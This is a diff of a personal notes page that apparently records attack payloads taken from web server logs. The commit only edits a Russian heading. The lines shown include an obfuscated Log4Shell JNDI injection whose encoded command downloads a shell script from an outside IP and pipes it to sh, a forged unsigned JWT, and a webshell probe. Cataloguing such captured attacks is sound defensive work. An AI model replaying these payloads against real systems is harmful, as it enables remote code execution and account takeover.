

Before and after one commit to Dr-D25/dr-d25.github.io, a Markdown page: articles/notes/Payloads_from_logs.md, the part around the change. Rendered like a GitHub page.

```diff
--- a/articles/notes/Payloads_from_logs.md
+++ b/articles/notes/Payloads_from_logs.md
@@ -12,7 +12,7 @@
 
 /api/auth/cognito/callback?access_token=fglivand&id_token=eyJhbGciOiJub25lIiwidHlwIjoiSldUIn0.eyJjb2duaXRvOnVzZXJuYW1lIjoiZ3J1am9jYWZ6YyIsImVtYWlsIjoie3tlbWFpbH19In0=.
 
-"GET /?x=t%28%27%24%7B%24%7Benv%3ANaN%3A-j%7Dndi%24%7Benv%3ANaN%3A-%3A%7D%24%7Benv%3ANaN%3A-l%7Ddap%24%7Benv%3ANaN%3A-%3A%7D%2F%2F45.153.34.153%3A1389%2FTomcatBypass%2FCommand%2FBase64%2FKHdnZXQgLXFPLSBodHRwOi8vNDUuMTUzLjM0LjE1My9yb25kby5kdXMuc2h8fGN1cmwgLXMgaHR0cDovLzQ1LjE1My4zNC4xNTMvcm9uZG8uZHVzLnNoKXxzaCAg%7D%27%29 HTTP/1.1" 400 157 "t('${${env:NaN:-j}ndi${env:NaN:-:}${env:NaN:-l}dap${env:NaN:-:}//45.153.34.153:1389/TomcatBypass/Command/Base64/KHdnZXQgLXFPLSBodHRwOi8vNDUuMTUzLjM0LjE1My9yb25kby5kdXMuc2h8fGN1cmwgLXMgaHR0cDovLzQ1LjE1My4zNC4xNTMvcm9uZG8uZHVzLnNoKXxzaCAg}')" "t('${${env:NaN:-j}ndi${env:NaN:-:}${env:NaN:-l}dap${env:NaN:-:}//45.153.34.153:1389/TomcatBypass/Command/Base64/KHdnZXQgLXFPLSBodHRwOi8vNDUuMTUzLjM0LjE1My9yb25kby5kdXMuc2h8fGN1cmwgLXMgaHR0cDovLzQ1LjE1My4zNC4xNTMvcm9uZG8uZHVzLnNoKXxzaCAg}')"### Запрос 6
+"GET /?x=t%28%27%24%7B%24%7Benv%3ANaN%3A-j%7Dndi%24%7Benv%3ANaN%3A-%3A%7D%24%7Benv%3ANaN%3A-l%7Ddap%24%7Benv%3ANaN%3A-%3A%7D%2F%2F45.153.34.153%3A1389%2FTomcatBypass%2FCommand%2FBase64%2FKHdnZXQgLXFPLSBodHRwOi8vNDUuMTUzLjM0LjE1My9yb25kby5kdXMuc2h8fGN1cmwgLXMgaHR0cDovLzQ1LjE1My4zNC4xNTMvcm9uZG8uZHVzLnNoKXxzaCAg%7D%27%29 HTTP/1.1" 400 157 "t('${${env:NaN:-j}ndi${env:NaN:-:}${env:NaN:-l}dap${env:NaN:-:}//45.153.34.153:1389/TomcatBypass/Command/Base64/KHdnZXQgLXFPLSBodHRwOi8vNDUuMTUzLjM0LjE1My9yb25kby5kdXMuc2h8fGN1cmwgLXMgaHR0cDovLzQ1LjE1My4zNC4xNTMvcm9uZG8uZHVzLnNoKXxzaCAg}')" "t('${${env:NaN:-j}ndi${env:NaN:-:}${env:NaN:-l}dap${env:NaN:-:}//45.153.34.153:1389/TomcatBypass/Command/Base64/KHdnZXQgLXFPLSBodHRwOi8vNDUuMTUzLjM0LjE1My9yb25kby5kdXMuc2h8fGN1cmwgLXMgaHR0cDovLzQ1LjE1My4zNC4xNTMvcm9uZG8uZHVzLnNoKXxzaCAg}')"
 
 /mnaryr.php?cmd=echo+VXrceviabsZQ
 
```
